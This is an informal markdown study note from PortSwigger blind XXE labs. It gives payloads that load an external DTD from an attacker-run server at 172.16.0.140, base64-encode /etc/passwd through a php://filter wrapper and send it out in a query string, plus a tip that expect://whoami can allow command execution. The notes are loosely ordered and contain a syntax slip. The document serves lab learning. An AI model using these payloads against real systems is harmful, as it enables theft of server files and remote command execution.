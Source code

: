 # Blind XXE with out-of-band interaction #

As happens on the sql the problem is that we can resolve this lab  only with the "collaborator" of burpsuit. They do not permit third parties to resolve this lab.

We cant do it with a local resource, and with an external resource so I will just put as a "guide" what savitar is putting resolving the lab.

So on the XXE you need to use this DTD

(If you try the ones that we use before we are going to get "invalid product ID"). This is an indicator of possible XXE OOB 
```
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://theexternalurl.com/textXXE" >]>
```
So on that way we can retrieve info in our "ZAP" or the resource that we will use.

# Explanation blind XXE to exfiltrate data using a malicious external DTD #


He said that we can generate entities inside of entities. As you can se, we do not put the "variable or entity xxe on the markup of the XXE  ".
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://thesiteorip/malicious"> %xxe; ]>
```

In our computer we must put a python3 server and put inside of this a file called "malicious" with this content:

On burpsuit:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://172.16.0.140:80/malicious"> %xxe; ]>
```
But he is going to set it on base64 in this way.. he said "recordad que esto no es mas que un wrapper"

in the "?file=%file" is calling the first entity , that will be called on base64

&#x25 = % on hexadecimal notation

On my pc:

***TIP*** 
if you put "expect://whoami>"
instead of php in some occasions you can make command executions
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY %eval "<!ENTITY &#x25; exfil SYSTEM 'http://172.16.0.140/?file=%file;'>">
%eval;
%exfil;
```


# # Lab: [Blind XXE](https://portswigger.net/web-security/xxe/blind) with out-of-band interaction via XML parameter entities #
